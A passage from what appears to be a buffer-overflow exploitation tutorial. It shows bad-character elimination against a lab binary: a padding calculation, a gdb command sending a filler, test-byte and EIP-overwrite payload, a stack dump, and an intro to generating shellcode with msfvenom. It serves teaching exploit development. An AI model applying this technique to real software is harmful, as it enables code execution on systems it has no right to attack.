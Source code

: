 #### Notes

```shell
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff"

   EIP = "\x66" * 4

```

#### Send CHARS - Without "\\x00" & "\\x09"

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()

```

#### The Stack

```shell
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>

```

This process must be repeated until all characters that could interrupt the flow are removed.


# Generating Shellcode

* * *

We already got to know the tool `msfvenom` with which we generated our shellcode's approximate length. Now we can use this tool again to generate the actual shellcode, which makes the CPU of our target system execute the command we want to have.
